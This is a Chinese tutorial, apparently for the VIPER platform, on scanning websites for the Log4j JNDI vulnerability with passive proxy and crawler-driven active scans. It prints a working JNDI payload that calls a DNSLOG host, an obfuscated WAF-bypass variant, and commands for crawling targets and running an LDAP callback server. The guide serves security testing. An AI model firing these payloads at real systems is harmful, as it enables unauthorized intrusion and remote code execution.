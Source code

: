 # 使用VIPER扫描Log4j漏洞(主动扫描/被动扫描)

# 功能特性

## 被动扫描

+ 自动替换GET请求参数为Payload
+ 自动替换POST请求参数为Payload
+ 自动替换POST请求JSON中值为Payload
+ 自动替换跳过密码字段
+ 自动在headers中添加Payload(依据字典轮询)
+ Payload包含原始Payload与绕过WAF的Payload
+ 支持DNSLOG与LDAPServer两种回连模式(LDAPServer更适用于内网自查)

```plain
${jndi:ldap://ed3bf69b5e9611ec.xxx.ceye.io/hi}

${${c:Xy:-j}${Kp:W:q:-n}${dzD:-d}${UQt:-i}${GT:-:}${s:hzr:e:-l}${e:ZSJ:yd:-d}${fA:kBl:c:-a}${Hbn:q:-p}${f:Uu:-:}${HOB:-/}${Ijk:E:-/}${dfG:-e}${F:dSj:JE:-d}${Z:-3}${BOI:Yrf:-b}${Yt:S:-f}${DKB:-6}}${Z:-b}${xdB:XBZ:-5}${dW:-e}${uC:-6}${OC:KVJ:j:-1}${L:o:-1}${jhr:-e}${d:-c}${Gi:nUE:AX:-.}${vuo:hy:Srz:-9}${xv:-f}${KG:-p}${xm:-p}${My:aQw:-b}${Mz:Xr:-j}${Z:wWt:-.}${Kx:D:-c}${Y:-e}${j:-y}${xOm:-e}${Cn:-.}${N:Tx:de:-i}${hT:h:P:-o}${qi:yx:i:-/}${j:-h}${Qfp:-i}}
```

+ Payload中包含UUID,可根据DNSLOG记录查找具体触发漏洞的请求内容

## 主动扫描

+ 通过chrome headless + 爬虫的方式获取自动获取页面所有请求,将请求导入到被动proxy中,实现自动化扫描
+ 命令

```plain
.\crawlergo.exe -c ./chrome.exe -t 3 --push-to-proxy http://viperip:28888 http://target.com
```

# 使用教程

## 被动扫描

+ 更新VIPER版本到`v1.5.10`
+ 启动VIPER

![](img\Use_Viper_to_scan_log4j_vulnerabilities\1.webp)

+ 将浏览器代理设置为viperip:28888

![](img\Use_Viper_to_scan_log4j_vulnerabilities\2.webp)

+ 开启`被动扫描`中Log4j2模块

![](img\Use_Viper_to_scan_log4j_vulnerabilities\3.webp)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\4.webp)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\5.webp)

+ 通过浏览器打开目标网站,随意点击,输入信息等

![](img\Use_Viper_to_scan_log4j_vulnerabilities\6.webp)![](img\Use_Viper_to_scan_log4j_vulnerabilities\7.webp)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\8.webp)

+ VIPER后台会自动替换输入的值为Payload
+ 登录DNSlog平台,观察是否有记录

![](img\Use_Viper_to_scan_log4j_vulnerabilities\9.webp)

+ 拷贝红框中的uuid信息,在主页面查询

![](img\Use_Viper_to_scan_log4j_vulnerabilities\10.webp)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\11.webp)

+ 查询结果中包含可以触发漏洞的具体请求

![](img\Use_Viper_to_scan_log4j_vulnerabilities\12.webp)

## 主动扫描

+ 更新VIPER版本到`v1.5.10`
+ 启动VIPER

![1639676983773-2a6830c4-eea5-4995-92f4-a73706fc5864.webp](./img/c0meLUd67I2xejnp/1639676983773-2a6830c4-eea5-4995-92f4-a73706fc5864-063191.webp)

+ 开启`被动扫描`中Log4j2模块

![1640007481033-26813815-236e-4a14-8892-29b203e9a03e.webp](./img/c0meLUd67I2xejnp/1640007481033-26813815-236e-4a14-8892-29b203e9a03e-373377.webp)

![1640007561651-b321d10c-9883-4930-8559-54fb0af2eba7.webp](./img/c0meLUd67I2xejnp/1640007561651-b321d10c-9883-4930-8559-54fb0af2eba7-726991.webp)

![1640007582128-92a6241c-f2b8-4c45-bc3c-dadc02a9ec4b.webp](./img/c0meLUd67I2xejnp/1640007582128-92a6241c-f2b8-4c45-bc3c-dadc02a9ec4b-088978.webp)

+ 这里假设准备测试的网站为[http://target.com](http://target.com)
+ 安装crawlergo  [https://github.com/Qianlitp/crawlergo](https://github.com/Qianlitp/crawlergo)
+ 启动爬虫,并将流量发送到VIPER的代理中

```plain
.\crawlergo.exe -c ./chrome.exe -t 3 --push-to-proxy http://viperip:28888 http://target.com
```

+ 等待爬虫结束
+ 登录DNSlog平台,观察是否有记录

![](img\Use_Viper_to_scan_log4j_vulnerabilities\13.webp)

+ 拷贝红框中的uuid信息,在主页面查询

![1639677446002-dd4334ea-9374-4120-bd2a-840130a7c148.webp](./img/c0meLUd67I2xejnp/1639677446002-dd4334ea-9374-4120-bd2a-840130a7c148-776102.webp)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\14.webp)

+ 查询结果中包含可以触发漏洞的具体请求(<font style="color:#E8323C;">该请求为Crawlergo自动发送</font>)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\15.webp)

## 使用LDAPServer回连

+ 更新VIPER版本到`v1.5.10`
+ 启动VIPER

![1639676983773-2a6830c4-eea5-4995-92f4-a73706fc5864.webp](./img/c0meLUd67I2xejnp/1639676983773-2a6830c4-eea5-4995-92f4-a73706fc5864-063191.webp)

+ 将浏览器代理设置为viperip:28888

![1639677135625-073dee2c-691f-4e16-a326-531b7c26f2b4.webp](./img/c0meLUd67I2xejnp/1639677135625-073dee2c-691f-4e16-a326-531b7c26f2b4-008901.webp)

+ 开启`被动扫描`中Log4j2模块

![1640007481033-26813815-236e-4a14-8892-29b203e9a03e.webp](./img/c0meLUd67I2xejnp/1640007481033-26813815-236e-4a14-8892-29b203e9a03e-373377.webp)

+ 这里配置DNSLOG为`VPSIP:1387`

![](img\Use_Viper_to_scan_log4j_vulnerabilities\16.webp)

+ 执行如下命令,开启VIPER内置的LDAPServer

```plain
docker exec -it viper-c bash
python3 /root/viper/STATICFILES/Tools/ldapserver.py -p 1387
```

![](img\Use_Viper_to_scan_log4j_vulnerabilities\17.webp)

+ 通过浏览器打开目标网站,随意点击,输入信息等

![1639677273615-41f05455-b87e-491c-b993-3b934acfa646.webp](./img/c0meLUd67I2xejnp/1639677273615-41f05455-b87e-491c-b993-3b934acfa646-144672.webp)![1639677289481-de3c8d9f-814d-46eb-889d-46847f552404.webp](./img/c0meLUd67I2xejnp/1639677289481-de3c8d9f-814d-46eb-889d-46847f552404-170675.webp)

![1639677305436-4c12539d-2dfa-451a-a0de-25919c84f0db.webp](./img/c0meLUd67I2xejnp/1639677305436-4c12539d-2dfa-451a-a0de-25919c84f0db-024025.webp)

+ VIPER后台会自动替换输入的值为Payload
+ LDAPServer会收到回连请求,并打印请求UUID

![](img\Use_Viper_to_scan_log4j_vulnerabilities\18.webp)

+ 拷贝红框中的uuid信息,在主页面查询

![1639677446002-dd4334ea-9374-4120-bd2a-840130a7c148.webp](./img/c0meLUd67I2xejnp/1639677446002-dd4334ea-9374-4120-bd2a-840130a7c148-776102.webp)

![1639677468915-79dd91a6-bee1-4a2d-a4c5-4be05425a5dc.webp](./img/c0meLUd67I2xejnp/1639677468915-79dd91a6-bee1-4a2d-a4c5-4be05425a5dc-909468.webp)

+ 查询结果中包含可以触发漏洞的具体请求

![1639677504286-6361196e-c781-4c0c-8d22-fe65cca95741.webp](./img/c0meLUd67I2xejnp/1639677504286-6361196e-c781-4c0c-8d22-fe65cca95741-420030.webp)

##  

## 测试HTTPS网站

+ 更新VIPER版本到`v1.5.10`
+ 启动VIPER

![1639676983773-2a6830c4-eea5-4995-92f4-a73706fc5864.webp](./img/c0meLUd67I2xejnp/1639676983773-2a6830c4-eea5-4995-92f4-a73706fc5864-063191.webp)

+ 将浏览器代理设置为viperip:28888

![1639677135625-073dee2c-691f-4e16-a326-531b7c26f2b4.webp](./img/c0meLUd67I2xejnp/1639677135625-073dee2c-691f-4e16-a326-531b7c26f2b4-008901.webp)

+ 浏览器打开[http://mitm.it/](http://mitm.it/)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\19.webp)

+ 下载对应平台的证书,并安装(以windows为例)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\20.webp)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\21.webp)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\22.webp)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\23.webp)

+ 不用填写信息

![](img\Use_Viper_to_scan_log4j_vulnerabilities\24.webp)

+ 这里要选择受信任的根证书

![](img\Use_Viper_to_scan_log4j_vulnerabilities\25.webp)

![](img\Use_Viper_to_scan_log4j_vulnerabilities\26.webp)

+ 请在测试结束后从系统配置中删除对应的证书



